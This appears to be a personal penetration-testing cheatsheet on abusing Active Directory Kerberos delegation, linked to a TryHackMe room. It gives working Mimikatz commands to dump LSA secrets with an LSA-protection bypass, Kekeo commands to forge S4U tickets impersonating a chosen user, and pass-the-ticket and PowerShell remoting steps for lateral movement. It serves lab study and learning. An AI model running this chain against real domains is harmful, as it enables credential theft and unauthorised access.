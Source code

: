 # Active Directory Kerberos Delegation Exploitation

## Introduction

For [[Attacking-Kerberos]] and [[Active-Directory-Kerberos-Authenication-Defined]]

Kerberos Delegation can be used to is to enable an application to access resources hosted on a different server, without Kerberos Delegation we need a AD Service Account and provide it directit or have in innately have direct access to the target resource. With delegation the service account can be delegated to the target resource and interact with it on the behalf of the user able to delegate to the exploited Kerberos delegation victim. This process is visually represented below:

1. Current Context ---> Access ---> Victim x-x-x-x-No Access-x-x-x-x Target Resource
2. Current Context ---> Kerberos Delegation ---> Victim ---> Access Via Delegated to ---> Target Resource

## Constrained Vs Unconstrained

Unconstrained delegation is the original implementation that Microsoft later superceded with Constrained Delegation in 2003. 

- **Unconstrained**

[Unconstrain Delegation](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)  provides no limits to the delegation, if a user with the `"TRUSTED_FOR_DELEGATION"` flag set authenticates to a host with Unconstrained Delegation configured, a ticket-granting ticket (TGT) for that user account is generated and stored in memory. Therefore we could attempt to force a privileged account to authenticate to the host, which would allow them to intercept the generated TGT and impersonate the privileged service. 
[article](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)

- **Constrained**

To make this less over-powered and remediate security failings of Unconstrained Delegation, Microsoft introduced Constrained Delegation in 2003. Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. These are service, HOST for accounts, CIFS - Common Internet File System-based or based on one of allowed [[Network-Protocols-Cheatsheet]] within the AD Domain. With [[Powerview-Cheatsheet]] remember to `import-module`...

```powershell
Get-NetUser -TrustedToAuth
# Look at msds-allowedtodelegateto 
```

Dependent on your current context, Domain layout and attack path objectives.  Understanding the connective mechanism between machines in AD is key as the [[Network-Protocols-Cheatsheet]]. Usage of either legitimate Windows variants of or the any of the [[Impacket-Cheatsheet]] relevant, like for WinRM (but not Impacket) [[Evil-winrm-Cheatsheet]]. With Administrative Access [[Mimikatz-Cheatsheet]] to harvest credentials and tokens; [[Kekeo-Cheatsheet]] to generate tickets.

Get a service username and password with Mimkatz
```powershell
# mimikatz.exe
token::elevate
!+ # LSA protection bypass!
lsdump::secrets
```

Generate TGT tickets with Kekeo -- [[Kekeo-Cheatsheet]]
**FOR SOME SERVICE REQUIRE MULTIPLE TICKETS**

Method | Protocols
--- | ---
PS Remoting | http wsman

```powershell
# kekeo.exe
tgt::ask /user:<svc-user> /domain:<domain> /password:<password>
# Successful output will have:
> Ticket in file 'tgt_filename'
# Do for each $PROTOCOL required!
tgs::s4u /tgt:'tgt_filename' /user:<impersonation-target> /service:$PROTOCOL/<service>
# Successful output will have:
> Ticket in file 'TGS_...'
# Double check which remoting services need which protocol and forge for each service
```

Import tickets with Mimikatz
```powershell
# mimikatz.exe
privilege::debug
!+ # LSA protection bypass!
# Use TGS file(S) from kekeo
kerberos::ptt $TGS_Filename_beware_of_clipboard_newlines_or_carraige_return
# Successful output:
* File:
'TGS_*....'
OK
```

The Powershell remote into the next server/workstation:
```powershell
klist # Show imported Tickets
New-PSSession -ComputerName <target>.<domain>
Enter-PSSession -ComputerName <target>.<domain>
```


- **Resource-Based Contrained Delegation**

Introduced by Microsoft in 2012, Resource-Based Constrained Delegation (RBCD) once again provided additional restrictions on Kerberos Delegation for security. The service now specifies which objects can delegate to it allowing the service owner to control who can access it. If we have permissions to configure RBCD for a service we have ability to set `msDS-AllowedToActOnBehalfOfOtherIdentity`. populating it with currently control account then we can generate a TGT for the account we control, which will allow us to interact with this service see this article for more [Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/).


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[Unconstrain Delegation Medium Blog](https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976)
[Resource-based Constrained Delegation Abuse](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)